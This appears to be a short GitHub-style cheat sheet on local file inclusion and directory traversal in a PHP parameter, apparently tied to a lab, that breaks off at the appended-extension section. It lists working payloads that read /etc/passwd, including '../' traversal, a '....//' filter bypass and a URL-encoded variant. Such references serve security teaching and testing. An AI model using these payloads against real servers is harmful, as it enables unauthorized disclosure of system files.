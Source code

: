 # File Inclusion/Directory Traversal

## Local File Inclusion

### Basic LFI

Get /etc/passwd  
index.php?language=/etc/passwd

### LFI with Path Traversal

Get /etc/passwd when string passed to the `include()` function  
index.php?language=../../../../../../../../../etc/passwd or  
index.php?language=/../../../../../../../../../etc/passwd

### LFI with Blacklisting

Scripts can employ search and replace techniques to avoid path traversals. For example:

```text
$language = str_replace('../', '', $_GET['language']);
```

Can be bypassed like so  
index.php?language=....//....//....//....//....//....//....//....//etc/passwd

### **Bypass with URL Encoding**

The characters `../` can be URL encoded into `%2e%2e%2f`, which will bypass the filter.

In the last example `....//` can be URL encoded into `%2e%2e%2e%2e%2f%2f`.

The payload `%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd` will bypass the filter in the section above.  
index.php?language=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd

### LFI with Appended Extension

Scripts can manually append a `.php` or any other required extension before including the file, which serves as mitigation against the inclusion of arbitrary files.  
The files for this section are present in the `LFI_extension folder`.  


\*\*\*\*

